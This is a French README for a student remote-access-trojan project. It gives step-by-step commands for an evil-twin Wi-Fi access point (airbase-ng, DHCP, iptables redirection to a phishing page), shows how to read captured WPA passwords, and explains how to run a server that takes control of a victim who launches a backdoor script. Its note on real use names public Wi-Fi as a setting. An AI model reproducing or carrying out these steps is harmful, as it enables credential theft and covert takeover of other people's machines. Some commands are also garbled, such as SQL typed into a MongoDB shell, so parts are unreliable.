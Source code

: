 # RAT Project - MGS
#### Maxime Chasson - Sacha Perrin - Grégoire Matthieu
## READ ME

### Installation : 

Prérequis : 

- 2 VM Linux
- Point access portable
- Python 3
- Mettre à jour python si besoin (pip install --upgrade pip)
- Mettre à jour la machine Linux (apt-get update)
- Installer le Packages (mss)
- Installer le Packages (requests)
- Installer le Packages (pynput)

### Machine Virtuelle attanquant : 

Si vous utilisez notre solution localement sur deux machines virtuelles, rendez-vous directement à l'Étape 1.

Pour configurer la VM attanquant, vous aurez besoin de Kali Linux à jour, avec votre point d'accès mobile branché.

Installez les packages requis :

```apt update```

```apt install isc-dhcp-server```

```apt install mongodb```

```apt install airmon-ng```

Configurez le DHCP : 

Ouvrez votre terminal et tapez ```nano /etc/dhcpd.conf``` 
Insérez les valeurs suivantes : 

```
authoritative;
default-lease-time 600;
max-lease-time 7200;
subnet 192.168.1.128 netmask 255.255.255.128 {
option subnet-mask 255.255.255.128;
option broadcast-address 192.168.1.255;
option routers 192.168.1.129;
option domain-name-servers 8.8.8.8;
range 192.168.1.140;
}
```

Ensuite, téléchargez la page de phishing de votre choix, naviguez dans ```/var/www/``` et extrayez y votre page.

Démarrez votre server apache et votre mongodb : 

```/etc/init.d/apache2 start```
```/etc/init.d/mongodb start```

Entrez les commandes suivantes : 

```
> mongodb -u root
> create database phishing
> use phishing
> create table wpa_keys(password varchar(64), confirm varchar(64));
```

Laissez le terminal mongodb ouvert et ouvrez un autre terminal.

Sur cet autre terminal : 

Prenez notre de votre ip locale et point d'accès mobile avec : ```ip route```

Entrez ensuite : 

```
> airmon-ng
> airmon-ng start wlan0
```

Maintenant configurez et lancez airbase : 

```
> airodump-ng-oui-update
> airodump-ng -M mon0 #Prenez ici note de l'ESSID, BSSID, et numéro de Chanell cible
> airbase-ng -e [ESSID] -c [N°Channel] -P mon0
```

Ne fermez pas le terminale airbase ni le mongodb, et ouvrez un nouveau terminal, et entrez y les commandes suivantes : 

```
> ifconfig at0 192.168.1.129 netmask 255.255.255.128
> route add -net 192.168.1.128 netmask 255.255.255.128 gw 192.168.1.129
> echo 1 > /proc/sys/net/ipv4/ip_forward
> iptables –table nat –append POSTROUTING –out-interface eth0 -j MASQUERADE
> iptables –append FORWARD –in-interface at0 -j ACCEPT
> iptables -t nat -A PREROUTING -p tcp –dport 80 -j DNAT –to-destination [IP LOCALE:80]
> iptables -t nat -A POSTROUTING -j MASQUERADE
> dhcpd -cf /etc/dhcpd.conf -pf /var/run/dhcpd.pid at0
> etc/init.d/isc-dhcp-server start
```

Votre machine est désormais prête, et votre réseau déployé.

### Phishing

Une fois votre solution déployée, vos utilisateurs peuvent être amenés à se connecter sur votre page de phishing.

Pour accéder aux données entrées par votre victime, ouvrez le terminal MongoDB et entrez les commandes suivantes : 
```
use phishing
select * from wpa_keys;
```

### Étape 1 (sur VMs locales): 
- Une fois que l'installation des prérequis est faite, il va falloir modifier   l'ip et le port dans les fichiers ``serveur.py`` et ``backdoor.py`` (mettre l'ip de ma machine attaquante | le port est aux choix)

### Étape 2 : 

- Ensuite, il suffit de lancer notre ````serveur.py```` et attendre que la victime lance le ```backdoor.py```

- Si tout se passe bien et que tout est bien configuré, la machine devrait se connecter à notre machine attaquante 

- Vous pouvez ici utiliser la commande ```help``` pour afficher les différentes options qui se présentent à vous 

![](https://hackmd.io/_uploads/H1WfacLH2.png)

#### Note : 

- Dans notre cas, nous réalisons les tests sur un réseau local. Dans le cas d'une réel utilisation, les deux machines (attaquantes et victimes) doivent être dans le même réseau. Par exemple un wifi public.

### Étape 3 : 

- Une fois toutes les étapes précédentes réalisées, le contrôle de la machine est récupéré et on peut utiliser les commandes que l'on souhaite sur la machine victime.

### Commandes : 

- Pour afficher les commandes disponibles, utilisez ```help``` une fois connecté à la machine de la victime

![](https://hackmd.io/_uploads/BJcvp9USn.png)
